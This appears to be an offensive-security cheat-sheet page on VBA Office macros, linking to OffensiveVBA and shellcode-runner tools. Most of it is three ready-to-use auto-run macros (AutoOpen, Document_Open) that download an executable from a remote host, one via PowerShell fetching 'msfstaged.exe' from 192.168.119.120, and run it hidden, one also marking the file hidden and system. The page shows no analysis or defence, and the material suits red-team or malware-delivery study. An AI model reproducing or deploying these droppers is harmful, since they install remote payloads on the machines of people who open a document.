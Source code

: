 # ⭕ VBA

{% embed url="https://github.com/S3cur3Th1sSh1t/OffensiveVBA" %}

visual basic for applications is a VB scripting language embedded in applications like MS Office (a macro) and other applications like autoCAD.

with MS Office the VBA code is embedded in a document like a word processor file or spreadsheet.

{% hint style="info" %}
VBA is more powerful than VBS because it can interface directly with the windows API. VBA programs are not restricted in their access to the operating system.
{% endhint %}

## <mark style="color:red;">VBA Macro</mark>

### <mark style="color:orange;">VBA Download & Execute</mark>

```vba
Sub AutoOpen()

Const ADTYPEBINARY = 1
Const ADSAVECREATEOVERWRITE = 2

Dim xHttp
Dim bStrm
Dim filename

Set xHttp = CreateObject("Microsoft.XMLHTTP")
xHttp.Open "GET", "https://<DOMAIN>/<FILE>", False
xHttp.Send

Set gobjBinaryOutputStream = CreateObject("Adodb.Stream")

filename = "C:\Temp\" & DateDiff("s", #1/1/1970#, Now())

gobjBinaryOutputStream.Type = ADTYPEBINARY
gobjBinaryOutputStream.Open
gobjBinaryOutputStream.write CreateObject("System.Text.ASCIIEncoding").GetBytes_4("M")
gobjBinaryOutputStream.write CreateObject("System.Text.ASCIIEncoding").GetBytes_4("Z")
gobjBinaryOutputStream.write xHttp.responseBody
gobjBinaryOutputStream.savetofile filename, ADSAVECREATEOVERWRITE

SetAttr filename, vbReadOnly + vbHidden + vbSystem
Shell (filename)

End Sub
```

or

```vba
Sub AutoOpen()
    Auto_Open
End Sub

Sub Auto_Open()
    payloadURL = "<Download URL>"
    Dim req: Set req = CreateObject("Microsoft.XMLHTTP")
    Dim payloadStream: Set payloadStream = CreateObject("Adodb.Stream")
    req.Open "GET", payloadURL, False
    req.Send

    tmpDir = Environ("TEMP")
    exePath = tmpDir + "\trhen.exe"
    With payloadStream
        .Type = 1
        .Open
        .write req.ResponseBody
        .savetofile exePath, 2
    End With
    
    Set WshShell = CreateObject("WScript.Shell")
    cmds = WshShell.Run(exePath, 0, True)
    Set WshShell = Nothing
End Sub
```

#### <mark style="color:green;">Download and execute with powershell</mark>

```vba
Sub Document_Open()
    MyMacro
End Sub
Sub AutoOpen()
    MyMacro
End Sub
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object
    System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe','msfstaged.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path + "\msfstaged.exe"
    Wait (2)
    Shell exePath, vbHide
End Sub
Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
    DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```

## <mark style="color:red;">Shellcode Execution via VBA</mark>

{% embed url="https://github.com/iilegacyyii/UsefulScripts/blob/master/ShellcodeToVBA.py" %}

{% embed url="https://github.com/ScriptIdiot/vba_bin_runner" %}

{% embed url="https://github.com/karttoon/trigen" %}
